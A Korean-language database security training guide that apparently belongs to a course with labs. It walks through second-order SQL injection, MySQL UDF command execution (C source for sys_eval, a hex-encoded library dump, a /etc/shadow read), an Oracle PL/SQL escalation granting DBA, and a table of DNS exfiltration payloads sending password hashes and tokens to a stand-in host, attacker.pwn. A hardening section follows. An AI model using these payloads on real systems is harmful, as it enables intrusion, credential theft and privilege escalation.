


# 엔터프라이즈 RDBMS 권한 상승 & 심층 SQL 인젝션 실전 분석 (Enterprise Database Security Deep-dive)

> **섹션**: 23_Database_Hacking | **난이도**: 고급 (Advanced) | **대상**: RDBMS 침투 분석관, DB 보안 엔지니어, 레드팀 오퍼레이터

---

## 1. 개요 및 엔터프라이즈 RDBMS 아키텍처

기업의 핵심 비즈니스 로직과 민감 정보는 Oracle, PostgreSQL, MySQL, Microsoft SQL Server와 같은 엔터프라이즈 관계형 데이터베이스 관리 시스템(RDBMS)에 집약되어 있습니다. 현대 애플리케이션 보안에서 단순한 프론트엔드 인라인 SQL 인젝션은 WAF(웹 방화벽) 및 ORM(Object-Relational Mapping)의 보급으로 상당수 차단되고 있으나, 다음과 같은 심층 위협 벡터는 여전히 치명적인 보안 결함을 야기합니다:

1. **2차 SQL 인젝션 (Second-Order SQL Injection)**: 1차 입력 시점에는 안전하게 저장(Prepared Statement 등)되지만, 이후 백엔드 배치 잡, 트리거, 관리자 통계 쿼리 등에서 동적으로 결합 실행될 때 발현되는 지연형 인젝션.
2. **PL/SQL 및 확장 저장 프로시저 권한 상승**: `AUTHID DEFINER` 권한으로 실행되는 시스템 기본 내장 패키지(예: Oracle `SYS.DBMS_JVM_PROJECT`, MSSQL `xp_cmdshell`, PostgreSQL Untrusted Language)를 악용한 DB 관리자(DBA) 및 OS 권한 탈취.
3. **UDF (User-Defined Function) 바이너리 인젝션**: MySQL/PostgreSQL 등에서 임의의 공유 라이브러리(`.so` / `.dll`)를 시스템 플러그인 디렉터리에 로드하여 호스트 운영체제 루트 셸을 탈취하는 메모리 침투.
4. **Out-of-Band (OOB) 데이터 유출**: 인라인 응답이나 Blind 타이밍 지연이 불가능한 폐쇄망 환경에서 DNS 터널링(`UTL_INADDR`, `xp_dirtree`, `COPY FROM PROGRAM`)을 통한 침투 경로 개척.



---

## 2. 2차 SQL 인젝션 (Second-Order SQL Injection) 해부

### 2.1 동작 원리
2차 SQL 인젝션은 입력 시점과 실행 시점이 시공간적으로 분리되어 있습니다.
- **Phase 1 (저장 단계)**: 공격자가 회원가입 시 이름이나 프로필 코멘트에 SQL 페이로드(예: `admin'-- -` 또는 `' UNION SELECT password FROM users-- -`)를 입력합니다. 애플리케이션은 이를 Prepared Statement로 안전하게 파싱하여 데이터베이스에 문자열 그대로 저장합니다. 이때 WAF나 입력 필터링은 특수문자 삽입 여부와 관계없이 정상 처리할 수 있습니다.
- **Phase 2 (실행 단계)**: 관리자가 대시보드에서 "사용자 통계 집계"를 실행하거나, 비밀번호 변경 프로시저가 `SELECT * FROM users WHERE username = '` + stored_username + `'` 형식의 동적 쿼리를 실행할 때, 저장되어 있던 문자열이 쿼리 구문으로 해석되어 실행됩니다.

```sql
-- 1단계: 사용자 등록 시 안전하게 저장됨
INSERT INTO members (id, username, email) 
VALUES (101, 'admin'' OR 1=1 --', 'attacker@vibe.local');

-- 2단계: 백엔드 정산 또는 비밀번호 재설정 모듈에서 비보안 동적 조합
-- 파이썬/PHP/Java 레거시 코드:
-- query = f"UPDATE accounts SET reset_token = '{token}' WHERE owner = '{stored_username}'"
-- 실제 실행되는 SQL:
UPDATE accounts SET reset_token = 'xyz123' WHERE owner = 'admin' OR 1=1 --';
-- 결과: 전체 계정의 비밀번호 리셋 토큰이 공격자의 토큰으로 일괄 덮어씌워짐!
```

---

## 3. MySQL UDF 바이너리 인젝션 및 RCE

### 3.1 UDF(User-Defined Function) 악용 메커니즘
MySQL에서 고성능 연산이나 특수 기능을 위해 C/C++ 공유 라이브러리(`.so` on Linux, `.dll` on Windows)를 데이터베이스 함수로 등록할 수 있는 UDF 인터페이스를 제공합니다. 공격자가 `FILE` 권한이나 DBA(`SUPER` 또는 `root`) 권한을 획득한 경우 다음 절차로 호스트 RCE를 달성합니다:

1. **취약 플러그인 디렉터리 식별**:
   ```sql
   SHOW VARIABLES LIKE 'plugin_dir';
   -- 출력 예: /usr/lib/x86_64-linux-gnu/mariadb19/plugin/ 또는 /usr/lib/mysql/plugin/
   SHOW VARIABLES LIKE 'secure_file_priv';
   -- NULL이 아니고 빈 값이거나 특정 경로인 경우 해당 경로에 파일 쓰기 가능
   ```

2. **16진수 인코딩된 악성 공유 라이브러리 쓰기**:
   ```sql
   SELECT unhex('7f454c4602010100000000000000000003003e0001000000...') 
   INTO DUMPFILE '/usr/lib/mysql/plugin/raptor_udf2.so';
   ```

3. **시스템 셸 함수 등록 및 임의 명령 실행**:
   ```sql
   CREATE FUNCTION sys_eval RETURNS string SONAME 'raptor_udf2.so';
   SELECT sys_eval('id; cat /etc/shadow | head -n 3');
   ```

### 3.2 C 기반 UDF 코드 해부 (`sys_eval`)
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <mysql/mysql.h>

my_bool sys_eval_init(UDF_INIT *initid, UDF_ARGS *args, char *message) {
    if (args->arg_count != 1 || args->arg_type[0] != STRING_RESULT) {
        strcpy(message, "sys_eval() requires exactly one string argument");
        return 1;
    }
    return 0;
}

void sys_eval_deinit(UDF_INIT *initid) {}

char *sys_eval(UDF_INIT *initid, UDF_ARGS *args, char *result, 
               unsigned long *length, char *is_null, char *error) {
    FILE *pipe;
    char buffer[1024];
    size_t total_len = 0;
    char *output = NULL;

    pipe = popen(args->args[0], "r");
    if (!pipe) {
        *error = 1;
        return NULL;
    }

    output = malloc(1);
    output[0] = '\0';

    while (fgets(buffer, sizeof(buffer), pipe) != NULL) {
        size_t chunk_len = strlen(buffer);
        output = realloc(output, total_len + chunk_len + 1);
        strcpy(output + total_len, buffer);
        total_len += chunk_len;
    }

    pclose(pipe);
    *length = total_len;
    return output;
}
```

---

## 4. Oracle PL/SQL 인젝션 및 DBMS 패키지 권한 상승

Oracle 데이터베이스는 기본적으로 강력한 프로그래밍 언어인 PL/SQL을 내장하고 있으며, 수백 개의 표준 `SYS` 패키지가 설치되어 있습니다. 이 중 `AUTHID DEFINER`(정의자 권한)로 선언된 함수가 내부적으로 동적 SQL(`EXECUTE IMMEDIATE` 또는 `DBMS_SQL`)을 사용할 때 인젝션이 발생하면 일반 유저(`CONNECT`, `RESOURCE`)가 즉시 최고 관리자 권한(`DBA`)으로 상승합니다.

### 4.1 취약한 PL/SQL 프로시저 구조
```sql
-- SYS 계정으로 생성된 취약한 정의자 권한(AUTHID DEFINER) 프로시저
CREATE OR REPLACE PROCEDURE SYS.GENERATE_USER_REPORT(p_schema IN VARCHAR2)
AUTHID DEFINER AS
    v_sql VARCHAR2(4000);
BEGIN
    -- 취약점: p_schema 파라미터를 검증 없이 동적 SQL로 연결
    v_sql := 'ANALYZE TABLE ' || p_schema || '.STATS_TABLE COMPUTE STATISTICS';
    EXECUTE IMMEDIATE v_sql;
END;
/
GRANT EXECUTE ON SYS.GENERATE_USER_REPORT TO PUBLIC;
```

### 4.2 인젝션을 통한 DBA 권한 부여 익스플로잇
일반 사용자는 악의적인 함수를 작성한 후 `GENERATE_USER_REPORT`의 파라미터로 해당 함수를 주입합니다:

```sql
-- 공격자 계정에서 실행
CREATE OR REPLACE FUNCTION ESCALATE_PRIVS RETURN VARCHAR2 AUTHID CURRENT_USER AS
    PRAGMA AUTONOMOUS_TRANSACTION;
BEGIN
    EXECUTE IMMEDIATE 'GRANT DBA TO attacker_user';
    COMMIT;
    RETURN 'ESCALATED';
END;
/

-- 취약한 프로시저를 호출하면서 공격자 함수 주입
EXEC SYS.GENERATE_USER_REPORT('SCOTT.STATS_TABLE; DECLARE r VARCHAR2(100); BEGIN r := attacker_user.ESCALATE_PRIVS(); END; --');

-- 확인: attacker_user가 DBA 권한을 획득함
SELECT * FROM USER_ROLE_PRIVS WHERE GRANTED_ROLE = 'DBA';
```

---

## 5. Out-of-Band (OOB) DNS 데이터 유출

네트워크 인그레스 및 웹 응답이 엄격히 제어되어 웹 브라우저나 응답 바디로 쿼리 결과를 수신할 수 없는 경우, 데이터베이스 내부의 네트워크 통신 유틸리티를 호출하여 쿼리 결과를 DNS 질의 서브도메인으로 인코딩하여 외부 권위 DNS 서버로 전송합니다.



### 5.1 RDBMS별 OOB 페이로드 매트릭스

| RDBMS | OOB 호출 함수 / 구문 | DNS 유출 페이로드 예시 |
| :--- | :--- | :--- |
| **Oracle** | `UTL_INADDR.GET_HOST_ADDRESS` | `SELECT UTL_INADDR.GET_HOST_ADDRESS((SELECT password FROM users WHERE ROWNUM=1)\|\|'.attacker.pwn') FROM DUAL` |
| **MSSQL** | `master..xp_dirtree` / `xp_fileexist` | `DECLARE @p varchar(1024); SELECT @p=(SELECT top 1 password_hash FROM admin); EXEC('master..xp_dirtree "\\'+@p+'.attacker.pwn\a"')` |
| **PostgreSQL**| `COPY ... FROM PROGRAM` / `dblink` | `SELECT dblink_connect('host='\|\|(SELECT current_user)\|\|'.attacker.pwn user=a password=b dbname=c')` |
| **MySQL** | `LOAD_FILE()` w/ UNC Path (Windows) | `SELECT LOAD_FILE(CONCAT('\\\\',(SELECT hex(token) FROM auth LIMIT 1),'.attacker.pwn\\a.txt'))` |

---

## 6. 엔터프라이즈 RDBMS 다계층 하드닝 방어 체계

데이터베이스 침투를 원천 차단하기 위해서는 다음과 같은 4단계 방어 계층을 결합해야 합니다:

### 6.1 파라미터화 쿼리 및 엄격한 입력 검증
모든 DML 쿼리는 드라이버 레벨의 Prepared Statement(`?` 또는 `:param`)를 사용하여 데이터와 코드를 분리합니다. 식별자(테이블명, 컬럼명)를 동적으로 지정해야 하는 특수 케이스의 경우 반드시 화이트리스트 사전 검증을 거쳐야 합니다.

```python
# 안전한 파라미터화 쿼리 (Python SQLite/MariaDB 예시)
cursor.execute(
    "SELECT id, username, role FROM accounts WHERE username = ? AND is_active = ?",
    (user_input, True)
)
```

### 6.2 최소 권한 롤 분리 (Least Privilege)
- 애플리케이션 연결 계정은 `DBA`, `SUPER`, `sa`, `SYSTEM` 등 최고 관리자 권한을 일체 보유해서는 안 됩니다.
- DDL 권한(`DROP`, `ALTER`, `CREATE`), 파일 접근 권한(`FILE`, `LOAD_FILE`), OS 실행 권한(`xp_cmdshell`, UDF 생성)을 철저히 박탈합니다.
- DML 권한 역시 특정 스키마/뷰에 대한 `SELECT`, `INSERT`, `UPDATE` 권한만 선별 부여합니다.

### 6.3 파일시스템 격리 및 `secure_file_priv` 강제
MySQL/MariaDB에서는 `my.cnf` 설정 파일에 `secure_file_priv = /var/lib/mysql-files`를 지정하거나 빈 문자열/NULL로 설정하여 임의 디렉터리(`INTO DUMPFILE`, `LOAD DATA INFILE`) 쓰기를 원천 차단합니다. 또한 DB 데몬 프로세스를 AppArmor 또는 SELinux Enforcing 모드로 제한하여 `/tmp`, `/usr/lib` 등에 신규 바이너리가 실행되지 못하도록 격리합니다.

### 6.4 FGA (Fine-Grained Auditing) & Unified Auditing
민감 데이터(개인정보, 패스워드 해시, 신용카드 번호)가 포함된 테이블에 대해 FGA 정책을 적용하여, 관리자를 포함한 모든 `SELECT` 및 `UPDATE` 쿼리의 원문, IP 주소, 타임스탬프, 바인드 변수를 불변 감사 로그에 기록합니다.

```sql
-- Oracle Fine-Grained Auditing (FGA) 정책 적용 예시
BEGIN
    DBMS_FGA.ADD_POLICY(
        object_schema   => 'FINANCE',
        object_name     => 'SALARY_DATA',
        policy_name     => 'AUDIT_SALARY_ACCESS',
        audit_condition => 'SALARY > 100000',
        audit_column    => 'SALARY, SSN',
        enable          => TRUE,
        statement_types => 'SELECT, UPDATE'
    );
END;
/
```

---

## 7. 결론 및 실습 연계

엔터프라이즈 데이터베이스 보안은 WAF와 같은 외부 방화벽에만 의존할 수 없습니다. 2차 인젝션, 저장 프로시저 권한 상승, UDF 메모리 주입 등 내부 신뢰 경로를 악용한 공격은 DB 내부의 최소 권한 격리, TDE 암호화, 파라미터화 쿼리, 세밀한 감사(FGA) 체계가 상호 보완적으로 작동할 때만 완벽히 무력화될 수 있습니다.

본 심층 분석의 모든 공격 기법과 방어 매커니즘은 **Lab 36 (`labs/36_enterprise_database_security_lab/`)** 및 **워게임 Track 50 (`dbsec`)**에서 직접 인터랙티브하게 검증할 수 있습니다.
